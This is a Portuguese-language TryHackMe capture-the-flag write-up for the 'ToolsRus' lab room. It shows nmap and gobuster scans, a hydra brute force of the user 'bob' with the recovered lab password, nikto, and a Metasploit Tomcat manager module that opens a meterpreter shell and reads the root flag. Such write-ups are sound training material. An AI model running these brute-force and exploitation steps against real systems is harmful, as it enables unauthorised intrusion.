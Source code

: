 # ToolsRus CTF


#### THM = https://tryhackme.com/room/toolsrus

> Alooow!

> Este é o meu primeiro roteiro do THM e o desafio foi o ToolsRus
Vou compartilhar o meu caminho..

![alt text](https://i.imgur.com/fAFiFoI.png)

	Usei as seguintes ferramentas 
	-dirbuster
	-hydra
	-nmap
	-nikto
	-metasploit


# Identificando portas!
### nmap
  ```nmap  -sV $IP```
![alt text](https://i.imgur.com/Q0EF01b.png)

### Gobuster 

Identificamos um servidor apache na porta 80 e curiosamente um Tomcat na porta 1234
Aplicamos o gobuster 
```gobuster dir -u http://10.10.139.47/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/4UvdHSQ.png)

No diretório /guidelines encontramos o nome bob 

![alt text](https://i.imgur.com/WzIIRXh.png)

Na porta 1234 encontramos o Tomcat como esperado 

![alt text](https://i.imgur.com/CrxlCAt.png)

No diretório /protected identificamos a requisição de login e senha

![alt text](https://i.imgur.com/Fa7lkCQ.png)


Ja que identifiquei a porta 1234 vamos rodar um gobuster pra identificar novos diretórios

### Gobuster 

```gobuster dir -u http://10.10.139.47:1234/ -w /usr/share/dirb/wordlists/common.txt```

![alt text](https://i.imgur.com/59hvVpj.png)


Com a página de login encontrada vamos tentar quebrar a senha com o hydra usando o usuário bob que identificamos mais acima

### Hydra

```hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.139.47 http-get /protected```

![alt text](https://i.imgur.com/L8XzFtT.png)

Aqui encontramos login e senha 
Com essas credenciais conseguimos autenticar no Tomcat manager

![alt text](https://i.imgur.com/HRNcu6W.png)

Essas credenciais não são suficientes ainda para logar via SSH.

### Nikto
``` nikto -id bob:bubbles -h http://10.10.139.47:1234/manager/ ```
![alt text](https://i.imgur.com/YzpLnLJ.png)
Nos traz algumas paginas para analisar.. 

Com um possivel usuario ```bob``` e uma tela de login podemos fazer uma forcinha bruta e tentar descobrir a senha...
### Bora metasploit

	-set RHOST $IPDESTINO
	-set RPORT 1234
	-set httpusername bob
	-set httppasword *****
	-run
![alt text](https://i.imgur.com/9z9dnZC.png)
# Sucesso! 
O meterpreter nos dar poder para enviar comandos para a máquina

![alt text](https://i.imgur.com/7ZbXGC9.png)
Dentro de /root/ conseguimos ler a flag.txt
```cat /root/flag.txt ```

![alt text](https://i.imgur.com/z2e1Dki.png)

Com a flag e root finalizo esta sala!

[]`s

